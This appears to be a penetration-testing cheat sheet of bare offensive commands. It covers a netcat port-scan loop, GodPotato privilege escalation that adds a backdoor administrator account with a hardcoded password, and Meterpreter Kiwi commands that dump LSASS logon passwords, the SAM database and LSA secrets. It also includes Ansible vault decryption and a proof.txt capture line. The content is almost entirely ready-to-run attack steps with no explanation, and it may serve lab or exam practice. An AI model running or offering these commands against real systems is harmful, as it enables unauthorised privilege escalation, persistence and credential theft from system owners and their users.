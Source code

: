 ## Ansible vault decrypt
```
ansible-vault decrypt <file.yml> --output decrypted.txt
```

## PortScan (NC)
```
for i in $(echo "<IP>"|tr "," "\n"); do echo -e "21\n22\n80\n135\n443\n445\n88\n389\n1433\n3306\n3389\n5985\n5986\n8001\n8002\n8080\n8081\n8443" | xargs -i nc -w 1 -zvn $i {}; done
```

# GodPotato
```
GodPotato-NET4.exe -cmd "net user rilak 1qaz@WSX /add"
GodPotato-NET4.exe -cmd "net localgroup Administrators rilak /add"
```

# Kiwi

## Load kiwi
```
load kiwi
```

## Lsass
```
kiwi_cmd "sekurlsa::logonPasswords"
```

## SAM
```
lsa_dump_sam
```

## Lsass
```
lsa_dump_secrets
```

# Other

## Proof.txt Linux 1
```
whoami && hostname && ip a && cat proof.txt
```
